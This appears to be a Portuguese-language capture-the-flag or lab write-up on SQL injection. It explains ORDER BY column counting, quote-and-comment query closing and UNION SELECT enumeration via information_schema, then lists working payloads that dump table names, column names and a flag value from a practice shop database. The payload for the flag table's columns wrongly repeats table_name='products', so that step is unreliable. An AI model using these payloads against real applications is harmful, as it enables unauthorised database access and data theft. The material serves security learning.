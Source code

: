 
Essa falha ocorre porque temos um input que é concatenado diretamente em uma query sql, sem ser sanitizado, ou seja, ele aceita todos os caracteres, ou ainda aceita "caracteres maliciosos", o que nós permite editarmos as queries para trazer os resultados que nós queremos.

Algumas estrategias são utilizar o order by para que nós descobrissemos quantas colunas estão sendo utilizadas naquela query.

Podemos fechar queries, com ', e então apos injetar nosso comando comentar todo o restante, com #, ou -- -, os dois funcionam.

Também podemos utilizar o union select, para que possamos realizar outra pesquisa junto da que o desenvolvedor já estipulou. 


Alguns comando importantes são: 

@@version -> Mostra a versão do banco de dados utilizado

database() -> Mostra todos os bancos que existem na maquina

information_schema.tables -> Mostra todas as tabelas de todos os bancos de dados cadastrados na maquina

information_schema.columns -> Mostra todas as colunas de todos os bancos de dados cadastrados na maquina

table_schema -> Mostra nome do db atual

user() -> Mostra o usuario logado para comunicação com o bando



<h1>Laboratório</h1>
No laboratório temos uma loja com 3 produtos, um wifi-pineapple, um usb rubber duck, e um bash bunny, temos um campo de pesquisa para procurar por eles, ou por algo na descrição, com isso podemos fechar a query, com ', e então testar para tentarmos achar quantas colunas estão sendo utilizadas, com o order by.
Fazendo isso conseguimos ver que temos 4 colunas, pois se tentarmos com 5, ele não retorna nenhum item. Então vamos entender onde estão os valores utilizando o union select

Com isso podemos perceber que, o numero 2, e o 3 são respectivamente, o nome do produto, e a descrição, com isso podemos alterar coisas para que conseguissemos extrair dados do banco, como o nome das tabelas, os nomes do bancos de dados, o nome das colunas, entre outros.

Nome do banco: cs -> 
versão: 10.5.11-MariaDB-1 -> 
usuário: webapp@localhost ->

tabelas: products and flag -> ' or 1=1 union select 1,2,table_name,4 from information_schema.tables where table_schema="cs"; #

colunas da tabela products: id, name, description, price -> ' or 1=1 union select 1,2,column_name,4 from information_schema.columns where table_schema="cs" and table_name="products"; #

colunas da tabela flag: id, name -> ' or 1=1 union select 1,2,column_name,4 from information_schema.columns where table_schema="cs" and table_name="products"; #

valor de name da tabela flag -> ' or 1=1 union select 1,2,name,4 from flag; #